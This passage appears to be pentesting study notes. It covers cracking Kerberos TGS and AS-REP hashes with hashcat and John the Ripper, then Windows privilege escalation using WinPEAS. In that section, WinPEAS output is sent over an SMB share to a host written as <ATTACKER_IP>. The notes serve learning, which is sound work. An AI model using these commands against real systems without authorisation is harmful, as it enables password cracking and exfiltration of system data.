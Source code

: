 ### Kerberos 5 TGS AES256
---
- Using **Hashcat:**

```c
hashcat -a 0 -m 19700 hash.txt wordlist.txt
```

### Kerberos ASREP
---
- Using **Hashcat:**

```c
hashcat -a 0 -m 18200 hash.txt wordlist.txt
```

- Using **JohnTheRipper:**

```c
john --wordlist=wordlist.txt --format=krb5asrep hash.txt
```

## Windows Privilege Escalation
---

Notes from **hexdump's** [(LeonardoE95)](https://github.com/LeonardoE95/yt-en) YouTube course on [Windows Privilege Escalation](https://www.youtube.com/watch?v=OmW7351U8cI)

### WinPEAS.exe
---
- Create an SMB share from the attacker box

```python
impacket-smbserver -smb2support -username fakeuser -password fakepasswd <SHARENAME> .
```

- Use the share from the target box

```python
net use \\<ATTACKER_IP>\<SHARENAME> /user:fakeuser fakepasswd
```

- Run winpeas and output results to the attacker's share

```python
.\winPEASx64.exe quiet log=\\<ATTACKER_IP>\<SHARENAME>\winpeas_results.log
```

- View the results in real-time

```python
tail -f winpeas_results.log
```

---


Get available users and domain users (domain - username - sid)
